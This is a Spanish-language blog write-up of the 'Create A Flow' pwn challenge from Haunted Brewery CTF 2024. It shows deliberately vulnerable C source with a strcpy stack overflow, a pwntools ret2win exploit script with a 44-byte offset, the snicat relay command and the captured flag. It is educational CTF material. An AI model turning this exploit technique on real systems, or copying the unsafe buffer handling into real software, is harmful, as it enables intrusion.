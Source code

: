 ```yaml
---
layout: post
title: Create A Flow Haunted Brewery CTF
comments: true
categories: [Pwn, Writeups, HauntedBreweryCTF]
---
```


Este fin de semana he participado con algunos miembros de mi equipo [Caliphal Hounds](https://ctftime.org/team/225933) en el [Haunted Brewery CTF 2024](https://ctftime.org/ctf/1191/). Donde logramos un puesto 20, dejando buenas sensaciones con el progreso del equipo.

En la competición tuvimos categoría de PWN, donde por desgracia sólo pudimos resolver este primer ejercicio, ya que para progresar debíamos resolver los retos anteriores, y nos atascamos en el segundo ejercicio (una especie de Jail).

![Image]({{ site.baseurl }}/images/posts/haunted-brewery-2024.png)

# Overview

Como viene siendo costumbre en los últimos CTFs, este también es un ret2win, con la particularidad de que la conexión al servicio no se realiza por *netcat*, sino mediante *snicat* (una herramienta similar a netcat pero con soporte para cifrado SSL).

Por lo demás, se nos da un archivo fuente en C:

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <time.h>
// gcc -o create-a-flow create-a-flow.c -fno-stack-protector -z execstack -no-pie -m32 

[...]

void unlock_secret() {
    printf("\n👻 y..o..u... s...hou...d...nt.. be ... hee...e.r...e... GET OUT! 👻\n");
    printf("The fermenter starts shaking... !\n");
    printf("You hear a faint sound shimmer across your ears...\n");
    printf("t..h..e.... f...lag... is.: HnH{connect-to-the-sever-and-run-your-exploit}\n "); 

}

void submit_brew(char *brew_name) {
    char buffer[32];

    printf("Sending data ..... : %s\n", brew_name);

    strcpy(buffer, brew_name);  //Vulnerable a BOF, buffer[32] <= brew_name[128]

}

int main() {

    ignore_me_init_buffering(); 
    char brew_name[128];

    const char *goodbye_messages[] = {
        "Thanks for brewing up that awesome suggestion! We'll take it from here.",
        [...]
    };

    int message_count = sizeof(goodbye_messages) / sizeof(goodbye_messages[0]);

    srand(time(NULL));

    int random_goodbye_index = rand() % message_count;


    printf("Welcome to the Haunted Brewery Brew-Curation tank. If we like the name of your brew, we'll feature it in the next batch! \n");
    printf("Enter the name of your cursed brew to have it submitted to our staff: ");

    fgets(brew_name, sizeof(brew_name), stdin); 

    brew_name[strcspn(brew_name, "\n")] = 0;

    printf("\nSubmission in progress...\n");
    submit_brew(brew_name);

    printf("%s\n", goodbye_messages[random_goodbye_index]);
   
    exit(0); 
}
```

Lo que nos interesa es la línea de compilación:

```bash
gcc -o create-a-flow create-a-flow.c -fno-stack-protector -z execstack -no-pie -m32 
```

Aquí vemos que se está compilando con 32 bits, además de que no tendrá protecciones. Por otro lado, en el propio código vemos una función `unlock_secret` que nos imprimirá la flag, pero que no se referencia en ningún lugar del código.

Para lograr llamar a la función deberemos desbordar el buffer de la función `submit_brew` que es vulnerable a *Buffer Overflow* (dado que dipone de 32b pero de le está cargando `brew_name` de 128).

# Explotación

Como siempre, utilizamos *cyclic* para encontrar el offset hasta el RIP (no incluyo esta parte dado que es algo básico que hemos hecho en otros writeups), que en este caso es 44. Con *gdb* obtenemos la dirección de `unlock_secret` y con esa información ya popdemos crear nuestro script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

## ./sc -bind 5000 hackersnhops-create-a-flow.chals.io

win = p32(0x08049253)
padding = 44 * b'A'

io = remote("127.0.0.1", 5000)
#io = pwn.connect(hostAddress, 443, ssl=True, sni=hostAddress)

payload = padding
payload += win

io.sendlineafter(":", payload)

io.interactive()
```

Antes de ejecutarlo, debemos lanzar el siguiente comando:

```bash
./sc -bind 5000 hackersnhops-create-a-flow.chals.io
```

De esta forma, las conexión viajará a través de *snicat*. Y una vez hecho esto deberíamos obtener la flag:

```

👻 y..o..u... s...hou...d...nt.. be ... hee...e.r...e... GET OUT! 👻
The fermenter starts shaking... !
You hear a faint sound shimmer across your ears...
t..h..e.... f...lag... is.: HnH{Gh0st1nThe13uFf3r}
```

Como dije en anteriores posts, está muy bien que haya retos de la categoría en las competiciones, sin embargo, sería interesante ver conceptos nuevos o incorporar algún nivel extra de complejidad.

Sin más, si te ha gustado el post, puedes ver el resto de post que subiré de ésta competición!
